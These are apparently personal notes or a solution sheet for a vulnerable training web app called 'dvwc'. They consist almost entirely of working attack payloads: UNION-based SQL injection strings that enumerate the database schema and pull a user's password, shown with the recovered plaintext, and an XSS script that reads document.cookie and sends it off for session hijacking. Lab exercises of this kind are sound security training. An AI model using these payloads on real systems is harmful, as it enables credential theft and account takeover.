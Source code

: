 # SQL-Injection Advanced

information_schema: table_schema, table_name

' OR 1=1 UNION SELECT table_schema FROM information_schema.tables -- 
-> dvwc

' OR 1=1 UNION SELECT table_name FROM information_schema.tables WHERE table_schema = 'dvwc' -- 
-> Chatrooms, PoMessages, Users

' OR 1=1 UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'Users' -- 
-> id, surname, prename, birthday, username, pwd, createdAt, updatedAt

' OR 1=1 UNION SELECT pwd FROM Users WHERE username = 'unionguy' -- 
-> sQL-iNJeCtion4EvERYonE


# XSS Session hijacking

<script>$.ajax({type: "GET", url: "http://dvwc.el.eee.intern/pomessage?message=" + document.cookie + "&from=alice&to=admin", success: (result) => {}});</script>
